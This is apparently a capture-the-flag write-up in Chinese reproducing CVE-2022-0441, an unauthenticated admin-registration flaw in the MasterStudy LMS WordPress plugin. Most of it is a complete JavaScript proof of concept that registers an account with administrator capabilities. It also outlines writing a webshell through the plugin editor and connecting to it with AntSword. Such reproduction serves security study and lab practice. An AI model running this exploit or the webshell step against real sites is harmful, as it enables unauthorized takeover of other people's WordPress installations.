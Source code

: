 ```yaml
---
title: CVE-2022-0441【RCE】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'RCE'
---
```


## 1. 漏洞描述

The MasterStudy LMS WordPress plugin before 2.7.6 does to validate some parameters given when registering a new account, allowing unauthenticated users to register as an admin

## 2. 漏洞复现

先利用漏洞注册个管理员，再利用编辑插件的权限写入木马，最后用蚁剑连接获取 flag。

![演示.gif](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312061148584.gif)

poc【[MasterStudy LMS – WordPress LMS Plugin 2.7.5 - Privilege Escalation (Unauthenticated) · GitHub](https://gist.github.com/numanturle/4762b497d3b56f1a399ea69aa02522a6)】

```js
function randomInt(min, max) {
  return Math.floor(Math.random() * (max - min + 1)) + min;
}

jQuery(document).ready(function($){
	username = "poctesting"+randomInt(1,1337);
	password_poc = "S3cr3t"+randomInt(1,1337);
	nonce = stm_lms_nonces.stm_lms_register

	post_data = {
		"user_login":username,
		"user_email":username+"@"+window.location.host,
		"user_password":password_poc,
		"user_password_re":password_poc,
		"become_instructor":"",
		"privacy_policy":true,
		"degree":"",
		"expertize":"",
		"auditory":"",
		"additional":[],
		"additional_instructors":[],
		"profile_default_fields_for_register":{
			"wp_capabilities":{
				"value":{
					"administrator":1
				}
			}
		}
	}
	
$.ajax({
    type: "POST",
    url: stm_lms_ajaxurl+"?action=stm_lms_register&nonce="+nonce,
    data: JSON.stringify(post_data),
    contentType: "application/json; charset=utf-8",
    dataType: "json",
    success: function(data){
		if(data.status == "success"){
			//window.location.href = "wp-admin/"
			console.log('%cRegistration Successful', 'color: black; background: yellow; font-size: 30px');
			console.log("Username : " + username);
			console.log("Password : " + password_poc);
		}
	},
    error: function(errMsg) {
        console.log(errMsg);
    }
});

});
```


参考：

[CVE-2022-0441 - MasterStudy LMS 2.7.6 - Unauthenticated Admin Account Creation - YouTube](https://www.youtube.com/watch?v=SI_O6CHXMZk)

[MasterStudy LMS – WordPress LMS Plugin 2.7.5 - Privilege Escalation (Unauthenticated) · GitHub](https://gist.github.com/numanturle/4762b497d3b56f1a399ea69aa02522a6)

